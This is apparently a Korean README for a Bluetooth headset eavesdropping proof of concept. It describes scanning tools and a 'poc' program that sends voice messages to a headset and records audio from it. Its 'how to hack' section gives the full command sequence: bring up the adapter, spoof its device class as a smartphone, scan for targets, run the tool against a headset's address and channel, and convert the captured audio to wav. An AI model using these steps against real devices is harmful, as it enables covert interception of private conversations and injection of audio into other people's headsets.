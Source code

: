 ** poc.c compile
 >> gcc -o poc poc.c -lbluetooth 

** raw -> wav
 >> sox -b 16 -s -c 1 -r 8100 -t raw [in.raw] [out.wav]
** wav -> raw
 >> sox --bits 16 --encoding signed-integer --endian little [in.wav] [out.raw]

<File info>
  btScan.py :: 주변의 블루투스 기기를 스캔한다. 단, 해당기기가 검색허용상태여야 한다.
  rfcommScan.py :: rfcomm프로토콜의 열린 채널을 검색한다.(나의 이어셋 채널은 4개밖에 없어서 channel4까지만 scan)
  poc :: 블루투스 이어셋에 음성메시지를 전송하고 상대의 음성메시지를 받아온다.

<how to hack>
1. sudo hciconfig hci0 up			//장비를 on시킨다.
2. hciconfig -a 					//장비의 정보 중에 class가 있는데 이어셋을 해킹하기 위해서는
3. hciconfig hci0 class 0x50020c	//0x50020c로 변경한다.:: class-SmartPhone, telephony, ObjectTransfer
									//(http://bluetooth-pentest.narod.ru/software/bluetooth_class_of_device-service_generator.html)
4. hcitool scan						//주변 블루투스 장비를 검색한다.
5. ./poc <hci#> <messagefile> <recordfile> <bdaddr> [channel]	// tool 사용.
6. sox -b 16 -s -c 1 -r 8100 -t raw [in.raw] [out.wav] 	//수신한 데이터를 wav파일로 변경
